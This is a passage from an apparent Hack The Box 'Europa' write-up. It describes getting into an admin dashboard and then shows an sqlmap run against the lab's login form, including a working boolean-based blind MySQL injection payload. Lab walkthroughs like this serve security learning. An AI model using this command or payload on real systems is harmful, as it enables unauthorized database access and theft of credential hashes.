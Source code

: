 <img src="/img/blog/htb-europa/htb-europa-05.png">

If everything is done correctly you will see a 302 redirect response which will grant us an authenticated cookie. This allows us to refresh the login page in our browser or forward the previous captured request right into the admin dashboard! 
<img src="/img/blog/htb-europa/htb-europa-06.png">


## SQLmap
Alternatively, SQLmap can be used to extract the password hashes of the administrator and cracking them. 

```console
root@EdgeOfNight:~# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" 
   
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by the program

[*] starting at 05:37:17
[A lot of scanning REDACTED for easier reading]
[05:37:17] [INFO] resuming back-end DBMS 'mysql' 
[05:37:17] [INFO] testing connection to the target URL
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (1147=1147) THEN 0x6161 ELSE 0x28 END))-- EMIN&password=whatever

    Type: error-based
```